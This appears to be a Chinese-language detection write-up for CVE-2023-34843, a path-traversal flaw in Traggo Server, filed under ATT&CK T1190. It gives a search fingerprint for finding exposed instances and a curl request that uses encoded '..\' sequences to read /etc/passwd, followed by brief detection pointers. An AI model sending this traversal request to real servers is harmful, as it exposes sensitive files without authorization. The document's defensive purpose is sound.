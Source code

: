 # T1190-CVE-2023-34843-Traggo Server任意文件读取

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Traggo Server是一个基于标签的时间跟踪工具。CVE-2023-34843中，攻击者可构造恶意请求读取遍历系统上的文件，造成敏感信息泄漏。

空间测绘语句：title="Traggo"

参考链接：

- <https://blog.csdn.net/u010025272/article/details/131551064>
- <https://github.com/rootd4ddy/CVE-2023-34843>

## 检测日志

HTTP.log

## 测试复现

重现步骤：

在服务器上设置traggo服务器。`https://traggo.net/install/`

向以下URL发出GET请求。 `curl -X GET http://localhost:3030/static/..%5c..%5c..%5c..%5cetc/passwd``

查看/etc/passwd的内容

测试过程来自网络，未经实际测试：

![CVE-2023-34843](CVE-2023-34843.png)

## 测试留痕

无，未经实际测试，无留痕文件及PCAP流量包信息。

## 检测规则/思路

研判分析要点：

- 结合流量上下文，URL路径，请求方法
- 读取文件和文件信息
